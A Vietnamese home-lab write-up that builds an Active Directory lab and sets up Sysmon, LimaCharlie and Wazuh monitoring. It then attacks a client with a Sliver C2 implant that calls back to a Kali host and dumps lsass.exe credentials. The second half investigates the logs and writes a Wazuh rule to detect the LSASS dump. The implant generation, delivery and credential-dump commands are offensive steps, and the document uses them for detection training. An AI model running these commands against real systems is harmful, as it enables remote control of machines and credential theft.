# Build 1 mạng AD gồm 1 server và 1 client, 1 kali linux là attacker
Tạo 1 máy ảo win server và 1 máy ảo win client.

Tạo Domain Controler: ``MY-DC.SOC.local``.
Thêm user ``SOC\sale`` vào máy có tên là ``THE-SALER`` như hình bên dưới:


Máy Win THE-SALER: ``192.168.1.7``
Máy Win server: ``192.168.1.6``
Máy kali attacker: ``192.168.1.8``

# Install SYSMON và cài endpoint agent của LIMACHARLIE vào máy windows client

```
C:\Users\sale\Downloads\Sysmon>Sysmon64.exe -accepteula -i C:\Users\sale\Downloads\sysmonconfig-export.xml


System Monitor v15.15 - System activity monitor
By Mark Russinovich and Thomas Garnier
Copyright (C) 2014-2024 Microsoft Corporation
Using libxml2. libxml2 is Copyright (C) 1998-2012 Daniel Veillard. All Rights Reserved.
Sysinternals - www.sysinternals.com

Loading configuration file with schema version 4.50
Sysmon schema version: 4.90
Configuration file validated.
Sysmon64 installed.
SysmonDrv installed.
Starting SysmonDrv.
SysmonDrv started.
Starting Sysmon64..
Sysmon64 started.

C:\Users\sale\Downloads>dir
 Volume in drive C has no label.
 Volume Serial Number is 3887-0026

 Directory of C:\Users\sale\Downloads

08/27/2025  12:36 AM    <DIR>          .
08/27/2025  12:36 AM    <DIR>          ..
08/27/2025  12:36 AM         2,254,296 hcp_win_x64_release_4.33.13.exe
08/27/2025  12:04 AM    <DIR>          Sysmon
08/27/2025  12:03 AM         4,866,436 Sysmon.zip
08/27/2025  12:10 AM           123,257 sysmonconfig-export.xml
               3 File(s)      7,243,989 bytes
               3 Dir(s)   8,217,743,360 bytes free

C:\Users\sale\Downloads>hcp_win_x64_release_4.33.13.exe -i <<key ở trên limacharlie đưa cho>>

              ,,         %%
            ,,,,,,     %%%%%%
          ,,,,,,,,,  %%%%%%%%%%
        ,,,,,,,,,  %%%%%%%%%%%%%%
      ,,,,,,,,,  %%%%%%%%%%%%%%%%%%
    ,,,,,,,,,  %%%%%%%%%    %%%%%%%%%
  ,,,,,,,,,  %%%%%%%%#        %%%%%%%%%
,,,,,,,,,  %%%%%%%%%%
 ,,,,,,,,,  %%%%%%%%%
   ,,,,,,,,,  %%%%%%%%        %%%%%%%%
     ,,,,,,,,,  %%%%%%%%%%%%%%%%%%%%
       ,,,,,,,,,  %%%%%%%%%%%%%%%%
         ,,,,,,,,,  %%%%%%%%%%%%
           ,,,,,,,,   %%%%%%%%
             ,,,,       %%%%

        LimaCharlie Agent Installer
        https://limacharlie.io
   -------------------------------------

*** SUCCESS
*** Agent installed successfully!


C:\Users\sale\Downloads>

```

Sau khi đã cài limacharlie agent về máy win client, kiểm tra trên web quản trị sẽ thấy:



agent đã cài đặt thành công trên máy ``the-saler.soc.local``

Tiếp theo, ta sẽ config để đẩy log từ sysmon về limacharlie:



Vào mục Artifact Collection, và tạo artifact rule như trên để đẩy log từ sysmon trên máy win client về limacharlie.

# Install C2 framework on Kali - attacker machine

```
┌──(root㉿kali)-[/home/kali]
└─# sliver-server 
Connecting to localhost:31337 ...

          ██████  ██▓     ██▓ ██▒   █▓▓█████  ██▀███                                          
        ▒██    ▒ ▓██▒    ▓██▒▓██░   █▒▓█   ▀ ▓██ ▒ ██▒                                        
        ░ ▓██▄   ▒██░    ▒██▒ ▓██  █▒░▒███   ▓██ ░▄█ ▒                                        
          ▒   ██▒▒██░    ░██░  ▒██ █░░▒▓█  ▄ ▒██▀▀█▄                                          
        ▒██████▒▒░██████▒░██░   ▒▀█░  ░▒████▒░██▓ ▒██▒                                        
        ▒ ▒▓▒ ▒ ░░ ▒░▓  ░░▓     ░ ▐░  ░░ ▒░ ░░ ▒▓ ░▒▓░                                        
        ░ ░▒  ░ ░░ ░ ▒  ░ ▒ ░   ░ ░░   ░ ░  ░  ░▒ ░ ▒░                                        
        ░  ░  ░    ░ ░    ▒ ░     ░░     ░     ░░   ░                                         
                  ░      ░  ░ ░        ░     ░  ░   ░                                         
                                                                                              
All hackers gain jump-start
[*] Server v1.5.43 - e116a5ec3d26e8582348a29cfd251f915ce4a405
[*] Welcome to the sliver shell, please type 'help' for options

[*] Check for updates with the 'update' command

sliver > generate --http 192.168.1.8 --save /opt/sliver

[*] Generating new windows/amd64 implant binary
[*] Symbol obfuscation is enabled

[*] Build completed in 2m36s
[*] Implant saved to /opt/sliver/NASTY_PUSH.exe

sliver > 
sliver > implants

 Name                   Implant Type   Template   OS/Arch             Format   Command & Control         Debug 
====================== ============== ========== =============== ============ ========================= =======
 NASTY_PUSH   session        sliver     windows/amd64   EXECUTABLE   [1] https://192.168.1.8   false 

sliver > exit
                                                                                              
┌──(root㉿kali)-[/home/kali]
└─# cd /opt/sliver                          
                                                                                              
┌──(root㉿kali)-[/opt/sliver]
└─# ls
NASTY_PUSH.exe
                                                                                              
┌──(root㉿kali)-[/opt/sliver]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.1.7 - - [27/Aug/2025 01:57:46] "GET / HTTP/1.1" 200 -
192.168.1.7 - - [27/Aug/2025 01:57:54] code 404, message File not found
192.168.1.7 - - [27/Aug/2025 01:57:54] "GET /favicon.ico HTTP/1.1" 404 -

```

Cài Sliver C2 để thực hiện tấn công vào máy win client.

Tạo một ``implant``  và lưu vào thư mục ``/opt/sliver``, bằng kết nối ``http``, sẽ kết nối ngược về sliver server ``192.168.1.8`` ngay khi nó được thực thi trên máy windows client.
Deploy 1 http server port 80 trên thư mục này, rồi mở máy client, download payload đã được chuẩn bị sẵn ``NASTY_PUSH.exe`` về máy:



Sau khi tắt hết windows defender và tải thành công payload về máy, ta bật listener trên máy kali attacker:



sau khi đã bật listener, mở máy client và mở tệp ``NASTY_PUSH.exe``, lúc này nó sẽ kết nối về máy attacker và chúng ta sẽ nhận được một session.



Như vậy, ta đã hoàn tất kết nối C2 tới máy nạn nhân, attacker bây giờ có thể dễ dàng thực hiện command thông qua C2 và điều khiển máy nạn nhân.

# Monitor và Detect cuộc tấn công thông qua LimaCharlie (EDR) và Wazuh(SIEM)





Ta có thể thấy trên LimaCharlie rõ ràng rằng địa chỉ IP nguồn và IP đích của payload thông qua giao thức truyền tin TCP4



Kiểm tra phần Network và đã thấy kết nối đó, bây giờ ta sẽ search thử process hash của file ``NASTY_PUSH.exe`` trên ``Virustotal`` để xem kết quả như nào:



Kết quả là không tìm thấy mẫu tương ứng nào trên ``Virustotal``, điều này không có nghĩa là đây là một process an toàn.

Nó cho thấy rằng, Virustotal chưa phát hiện thấy file đó là file độc hại bao giờ. Điều này khá là bối rối khi hầu như tất cả mọi thứ phổ biến đều được ghi lại trên Virustotal.

Nó cũng dễ hiểu bởi vì đây là file mình tự tạo ra, và nó có vẻ khá là unique.

Như vậy ta sẽ khoanh vùng ip máy nạn nhân ``192.168.1.7`` và điều tra tiếp ip của attacker ``192.168.1.8``.

Vậy trong thực tế, ta thấy ngay đây là một kết nối đáng ngờ và rất tiềm ẩn nguy hiểm, vì một user thường lại kết nối đến một địa chỉ ip không xác định, tiềm ẩn nguy hiểm bị attacker tấn công. ta có thể truy vết trên SIEM ``wazuh`` về ip ``192.168.1.8`` để xem các logs đã thực hiện kết nối tới địa chỉ ip này.




Điều tra các log liên quan đến ip ``192.168.1.8``, bằng việc search ip này trong SIEM logs, ta thấy nạn nhân đã truy cập vào đường link lạ ``http://192.168.1.8:8888`` và tải file ``NASTY_PUSH.exe`` về máy. 

Làm xuất hiện EventID 15: file stream created. Chính tỏ khả năng cao nạn nhân đã bị phishing bởi attacker, dẫn đến tải và thực thi malware về máy.


Kiểm tra logs trên SIEM - Wazuh, ta thấy file ``NASTY_PUSH.exe`` được thực hiện khá nhiều và có kết nối bất thường đến ip ``192.168.1.8``:




```
 "data": {
      "win": {
        "eventdata": {
          "destinationPort": "80",
          "image": "C:\\\\Users\\\\sale\\\\Downloads\\\\NASTY_PUSH.exe",
          "sourcePort": "49972",
          "initiated": "true",
          "destinationIp": "192.168.1.8",
          "protocol": "tcp",
          "processGuid": "{a83c3bfc-87d7-68b0-bb01-000000001300}",
          "sourceIp": "192.168.1.7",
          "processId": "3928",
          "sourceHostname": "THE-SALER.SOC.local",
          "utcTime": "2025-08-28 17:59:41.100",
          "destinationPortName": "http",
          "ruleName": "Usermode",
          "destinationIsIpv6": "false",
          "user": "SOC\\\\sale",
          "sourceIsIpv6": "false"
        },
        "system": {
          "eventID": "3",
          "keywords": "0x8000000000000000",
          "providerGuid": "{5770385f-c22a-43e0-bf4c-06f5698ffbd9}",
          "level": "4",
          "channel": "Microsoft-Windows-Sysmon/Operational",
          "opcode": "0",
          "message": "\"Network connection detected:\r\nRuleName: Usermode\r\nUtcTime: 2025-08-28 17:59:41.100\r\nProcessGuid: {a83c3bfc-87d7-68b0-bb01-000000001300}\r\nProcessId: 3928\r\nImage: C:\\Users\\sale\\Downloads\\NASTY_PUSH.exe\r\nUser: SOC\\sale\r\nProtocol: tcp\r\nInitiated: true\r\nSourceIsIpv6: false\r\nSourceIp: 192.168.1.7\r\nSourceHostname: THE-SALER.SOC.local\r\nSourcePort: 49972\r\nSourcePortName: -\r\nDestinationIsIpv6: false\r\nDestinationIp: 192.168.1.8\r\nDestinationHostname: -\r\nDestinationPort: 80\r\nDestinationPortName: http\"",
          "version": "5",
          "systemTime": "2025-08-28T16:48:47.8645050Z",
          "eventRecordID": "9703",
          "threadID": "2936",
          "computer": "THE-SALER.SOC.local",
          "task": "3",
          "processID": "2104",
          "severityValue": "INFORMATION",
          "providerName": "Microsoft-Windows-Sysmon"
        }
      }
    },
```

SYSMON đã ghi nhận  ``event id 3`` tức là đã có kết nối từ máy client ``192.168.1.7`` đến máy của attacker ``192.168.1.8`` thông qua gia thức TCP. Event này được sinh ra từ hành động chạy file ``"image": "C:\\\\Users\\\\sale\\\\Downloads\\\\NASTY_PUSH.exe"`` của người dùng ``sale.SOC.local`` 

Như vậy có thể chắc chắn rằng đây là file mã độc đã được cài vào máy nạn nhân, và gửi một kết nối session đến C2 server của attacker.

=>> Có thể tạo rule detect trên EDR LimaCharlie để trực tiếp phản ứng kịp thời, hoặc gửi webhook đến cho SOC Analyst. Hiện tại LimaCharlie của tôi đang bị lỗi nên tôi sẽ bổ sung phần này sau!!


# Kịch bản Attacker dump file lsass.exe, tạo rule tương ứng để detect 

```
sliver (NASTY_PUSH) > procdump -n lsass.exe -s lsass3.dmp

[*] Process dump stored in: lsass3.dmp

```
Trên C2 Sliver của Attacker, đã hoàn thành dump file ``lsass.exe`` và đã được lưu vào ``lsass3.dmp`` trên máy của họ.

Kiểm tra log trên SIEM ``Wazuh`` có thể thấy rõ:

```
{
  "_index": "wazuh-archives-4.x-2025.08.28",
  "_id": "yo0G8ZgBhrI8-fmSrKqY",
  "_version": 1,
  "_score": null,
  "_source": {
    "agent": {
      "ip": "192.168.1.7",
      "name": "THE-SALER",
      "id": "001"
    },
    "manager": {
      "name": "wazuhserver"
    },
    "data": {
      "win": {
        "eventdata": {
          "subjectLogonId": "0x3e7",
          "logonGuid": "{00000000-0000-0000-0000-000000000000}",
          "targetUserName": "sale",
          "targetLogonGuid": "{00000000-0000-0000-0000-000000000000}",
          "targetInfo": "localhost",
          "subjectUserSid": "S-1-5-18",
          "processId": "0x254",
          "processName": "C:\\\\Windows\\\\System32\\\\lsass.exe",
          "subjectDomainName": "SOC",
          "targetServerName": "localhost",
          "targetDomainName": "SOC",
          "subjectUserName": "THE-SALER$"
        },
        "system": {
          "eventID": "4648",
          "keywords": "0x8020000000000000",
          "providerGuid": "{54849625-5478-4994-a5ba-3e3b0328c30d}",
          "level": "0",
          "channel": "Security",
          "opcode": "0",
          "message": "\"A logon was attempted using explicit credentials.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-18\r\n\tAccount Name:\t\tTHE-SALER$\r\n\tAccount Domain:\t\tSOC\r\n\tLogon ID:\t\t0x3E7\r\n\tLogon GUID:\t\t{00000000-0000-0000-0000-000000000000}\r\n\r\nAccount Whose Credentials Were Used:\r\n\tAccount Name:\t\tsale\r\n\tAccount Domain:\t\tSOC\r\n\tLogon GUID:\t\t{00000000-0000-0000-0000-000000000000}\r\n\r\nTarget Server:\r\n\tTarget Server Name:\tlocalhost\r\n\tAdditional Information:\tlocalhost\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x254\r\n\tProcess Name:\t\tC:\\Windows\\System32\\lsass.exe\r\n\r\nNetwork Information:\r\n\tNetwork Address:\t-\r\n\tPort:\t\t\t-\r\n\r\nThis event is generated when a process attempts to log on an account by explicitly specifying that account’s credentials.  This most commonly occurs in batch-type configurations such as scheduled tasks, or when using the RUNAS command.\"",
          "version": "0",
          "systemTime": "2025-08-28T14:13:18.8801413Z",
          "eventRecordID": "4971",
          "threadID": "5184",
          "computer": "THE-SALER.SOC.local",
          "task": "12544",
          "processID": "596",
          "severityValue": "AUDIT_SUCCESS",
          "providerName": "Microsoft-Windows-Security-Auditing"
        }
      }
    },
    "decoder": {
      "name": "windows_eventchannel"
    },
    "full_log": "
    ....

}
```

Ta thấy Attacker chạy lệnh dump ``lsass.exe`` thông qua C2, nên nó đã sinh ra event log với ``event id: 4648``

* Event ID 4648 trong Windows Security Log có tên:
“A logon was attempted using explicit credentials”. Nó xuất hiện khi một process trong Windows cố gắng đăng nhập bằng việc chỉ định rõ ràng tài khoản + mật khẩu/credential.
```
LSASS (Local Security Authority Subsystem Service) là process trong Windows lưu trữ credential, NTLM hashes, Kerberos tickets.

Khi attacker dùng C2 framework (Cobalt Strike, Mimikatz, Sliver…) để dump LSASS:

Tool cần đọc memory của LSASS.

Trong quá trình đó, công cụ thường ép LSASS hoặc impersonate (mạo danh) một account (ở đây là sale) để lấy credential.

Hành vi này buộc Windows phải ghi nhận một lần logon bằng explicit credential → và sinh ra Event ID 4648.

=>>>  Vì vậy, sự kiện này cho thấy có một process (lsass.exe) đã cố gắng dùng credential cụ thể để logon. Điều này rất bất thường trong môi trường bình thường.
```

* Security ID: S-1-5-18 → đây là Local System account (tài khoản hệ thống cao nhất trong Windows).

* SubjectUsername: THE-SALER$ → đây là computer account (máy THE-SALER trong domain SOC, THE-SALER.SOC.local).

* Process Name: C:\Windows\System32\lsass.exe → chính process LSASS thực hiện hành động này.

Tài khoản bị dùng credential:

* targetUserName: sale

* targetDomainName: SOC

Có nghĩa là LSASS đang thử đăng nhập bằng tài khoản sale@SOC.

* Target Server Name: localhost (logon xảy ra ngay trên chính máy tính đó không phải remote).

## Viết Rule để phát hiện dumping lsass.exe 

```
<group name="windows,security,authentication,">
  <rule id="104648" level="10">
    <if_group>windows_eventchannel</if_group>
    <field name="win.eventdata.processName">(?i)lsass\.exe</field>
    <field name="win.system.eventID">4648</field>
    <description>
      Possible LSASS dump attempt detected: Explicit credentials logon (EventID 4648) with process lsass.exe
    </description>
    <mitre>
      <id>T1003.001</id>
    </mitre>
  </rule>
</group>

```
thêm rule này vào trong file ``local_rules.xml`` trên wazuh server để kịp thời phát hiện hành vi bất thường, và SOC Analyst có thể kịp thời phát hiện, ngăn chặn hoặc báo với cấp trên để có kịch bản xử lí tiếp theo.


